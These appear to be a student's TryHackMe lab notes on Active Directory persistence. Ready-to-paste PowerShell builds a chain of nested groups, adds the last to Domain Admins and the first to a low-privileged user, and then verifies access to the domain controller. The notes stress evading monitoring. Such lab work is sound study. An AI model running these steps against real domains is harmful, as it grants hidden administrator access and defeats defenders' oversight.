

Below is the **same Obsidian note**, but now with **all commands explicitly included**, cleanly grouped and ready to copy-paste.

---

````markdown
# AD Persistence via Group Membership & Nested Groups

## Objective
Achieve **stealthy Active Directory persistence** by abusing **nested group membership** instead of directly modifying protected groups.

---

## Why This Works
- Protected groups (Domain Admins, Enterprise Admins) are monitored
- Nested groups reduce visibility of **effective access**
- Monitoring usually does **not recurse group membership**

---

## Step 1 — Create Base Group (Lowest Visibility)
Create the first group in a low-risk OU.

```powershell
New-ADGroup `
 -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" `
 -Name "<username> Net Group 1" `
 -SamAccountName "<username>_nestgroup1" `
 -DisplayName "<username> Nest Group 1" `
 -GroupScope Global `
 -GroupCategory Security
````

---

## Step 2 — Create Second Group & Nest First Group

```powershell
New-ADGroup `
 -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" `
 -Name "<username> Net Group 2" `
 -SamAccountName "<username>_nestgroup2" `
 -DisplayName "<username> Nest Group 2" `
 -GroupScope Global `
 -GroupCategory Security

Add-ADGroupMember `
 -Identity "<username>_nestgroup2" `
 -Members "<username>_nestgroup1"
```

---

## Step 3 — Continue Nesting (Multiple Layers)

```powershell
New-ADGroup `
 -Path "OU=CONSULTING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" `
 -Name "<username> Net Group 3" `
 -SamAccountName "<username>_nestgroup3" `
 -DisplayName "<username> Nest Group 3" `
 -GroupScope Global `
 -GroupCategory Security

Add-ADGroupMember `
 -Identity "<username>_nestgroup3" `
 -Members "<username>_nestgroup2"
```

```powershell
New-ADGroup `
 -Path "OU=MARKETING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" `
 -Name "<username> Net Group 4" `
 -SamAccountName "<username>_nestgroup4" `
 -DisplayName "<username> Nest Group 4" `
 -GroupScope Global `
 -GroupCategory Security

Add-ADGroupMember `
 -Identity "<username>_nestgroup4" `
 -Members "<username>_nestgroup3"
```

---

## Step 4 — Final Group (Will Touch Domain Admins)

```powershell
New-ADGroup `
 -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" `
 -Name "<username> Net Group 5" `
 -SamAccountName "<username>_nestgroup5" `
 -DisplayName "<username> Nest Group 5" `
 -GroupScope Global `
 -GroupCategory Security

Add-ADGroupMember `
 -Identity "<username>_nestgroup5" `
 -Members "<username>_nestgroup4"
```

---

## Step 5 — Add Final Group to Domain Admins

⚠️ **Only one visible change**

```powershell
Add-ADGroupMember `
 -Identity "Domain Admins" `
 -Members "<username>_nestgroup5"
```

---

## Step 6 — Add Your Low-Privileged User

This is the **only user addition**.

```powershell
Add-ADGroupMember `
 -Identity "<username>_nestgroup1" `
 -Members "<low-priv-username>"
```

---

## Step 7 — Verify Privileged Access

From the low-priv user session:

```cmd
dir \\thmdc.za.tryhackme.loc\c$
```

Successful listing = **Domain Admin privileges**.

---

## Step 8 — Verify Domain Admin Membership Visibility

```powershell
Get-ADGroupMember "Domain Admins"
```

Expected result:

- Only **one group** added
    
- No direct user entry
    

---

## Key Takeaways

- Stealth > raw privilege
    
- Nested groups bypass alerting
    
- Monitoring usually does not recurse
    
- One visible change → full domain compromise
    

---

## Mermaid Mind Map



---

```

```